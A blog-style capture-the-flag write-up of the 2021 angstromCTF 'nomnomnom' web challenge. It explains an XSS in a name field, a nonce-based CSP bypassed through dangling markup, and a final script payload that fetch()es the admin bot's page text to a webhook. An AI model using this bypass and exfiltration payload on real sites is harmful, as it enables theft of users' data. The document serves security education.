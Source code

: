 ```yaml
---
title: "2021 ångstromCTF - nomnomnom Challenge"
layout: post
date: 2021-08-04 11:25
image: /assets/images/favicon/apple-touch-icon-76x76.png
headerImage: false
tag:
- CTF
- Web
- Dangling Markup
category: blog
author: Casparov
description: Writeup for the nomnomnom Web challenge in the 2021 ångstromCTF.
---
```



## <u> The Challenge </u>
I had the pleasure of participating in the 2021 ångstromCTF, and within it, the challenge I ended up enjoying the most was:

&nbsp;<img class="image" src="/assets/images/nomnomnomLanding.PNG">

## <u> Analysis </u>

To begin, as per usual for any web challenge I immediately looked at the source code, html code and the game itself. A few moments later it's safe to say that this challenge is an XSS challenge, due to this section inside the source code:

<img class="image" src="/assets/images/nomnomnomxss.PNG">

The game allows you to manually enter your own name within the browser window here, which provides an xss vector via the name variable. Any HTML tags inserted as name will be treated as actual HTML code!

## <u> Solution </u>

It took quite a while to find the solution for this challenge, and I started to go down an iframe rabbit hole. The main problem was the fact there was a `CSP (Content Security Policy)` that was blocking every script tag I provided because it required the usage of a randomly generated `nonce` as an attribute.

```html
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-a03da7bf8449792432c9623fa0644875'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of 1! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by <script>alert(1)</script>
		<script nonce='a03da7bf8449792432c9623fa0644875'>
function report() {
	fetch('/report/62231e1a14a18abb', {
		method: 'POST'
	})
}

document.getElementById('reporter').onclick = () => { report() }
		</script> 
		
	</body>
</html>
```
<img class = "image" src="/assets/images/nomnomnomnonce2.PNG">

That was until I found out that unfinished script tags ate (haha! nom'd) the script tag that was below it. The good thing about this is that it meant I could inject javascript code into the `<script src>` attribute with the nonce as the attribute of it, due to firefox being very weird with a topic called Dangling Markup.

The solution therefore is called a Dangling Markup Injection.
The report button sent a Simulated browser in admin context via Puppeteer within firefox, so the xss could be used to steal the "admin's" browser window, which was the only thing that displayed the flag, as seen three images above inside the `extra` variable.

In order to steal the admin's browser window though, we need to send their `document.body.innerText` to a webhook. Luckily, https://webhook.site is an easy solution to this and so the final solution to this problem is:

```html
<script src="data:text/javascript, fetch('webhookurlgoeshere', {method: 'POST', mode: 'no-cors', body: document.body.innerText})"
```

The `no-cors` mode basically allows us to bypass any problems with `CORS (Cross-Origin-Resource-Sharing)` which in turn stops any `Access-Control-Allow-Origin` errors.

But wait... that has nom'd everything including the report button functionality! Easy fix: just copy and paste the report function into the firefox console and run the function!

```javascript
function report() {
    fetch('/report/f8f9270fe102e65a', {
        method: 'POST'
    })
}
```

&nbsp;<img class = "image" src="/assets/images/report.PNG">&nbsp;

Once you have done that, your webhook.site should have recieved a request with the flag in it!

<img class = "image" src="/assets/images/sol.PNG">

Special thanks to Clanger and Feldma from my team for helping me with this challenge for a long time. This challenge ended up taking me a good 2 days due to my lack of knowledge about Dangling Markup. But it was still incredibly fun none-the-less!